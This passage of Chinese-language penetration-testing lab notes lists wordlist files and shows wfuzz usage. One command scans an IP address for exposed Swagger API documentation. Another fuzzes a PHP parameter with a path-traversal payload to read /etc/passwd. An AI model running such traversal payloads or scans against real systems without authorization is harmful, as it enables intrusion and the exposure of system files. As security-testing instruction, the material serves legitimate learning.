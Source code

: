 ```
│   ├── iis.txt
│   ├── iplanet.txt
│   ├── jrun.txt
│   ├── netware.txt
│   ├── oracle9i.txt
│   ├── sharepoint.txt
│   ├── sql_inj.txt
│   ├── sunas.txt
│   ├── tests.txt
│   ├── tomcat.txt
│   ├── vignette.txt
│   ├── weblogic.txt
│   └── websphere.txt
└── webservices
    ├── ws-dirs.txt
    └── ws-files.txt

```

![image-20220406142847886](https://tva1.sinaimg.cn/large/e6c9d24egy1h0zzj8h3x6j20pf0ca400.jpg)

### 实验过程记录

#### 1）安装

```
apt install wfuzz
```



#### 2）使用

1、扫描swagger接口文档泄露

```
wfuzz -w dict/infiltration-dictionary/Files/swagger.txt http://111.1.29.166:27019/FUZZ
-w	字典路径
FUZZ	字典遍历参数位置
```

![image-20220406143923407](https://tva1.sinaimg.cn/large/e6c9d24egy1h0zzu98vl4j20jd0kf0vr.jpg)



2、文件包含参数测试

```
wfuzz -b 'PHPSESSID=p4d8u6edvm3mts5m88qsui02qj' -w /usr/share/wfuzz/wordlist/general/common.txt --hw 100   http://192.168.9-b2.193/manage.php?FUZZ=../../../../../etc/passwd
-b		为请求指定cookie
-w		指定字典
--hw 	根据word过滤
```

![image-20211020211536878](https://tva1.sinaimg.cn/large/008i3skNgy1gvm36pobilj60t006kmxj02.jpg)
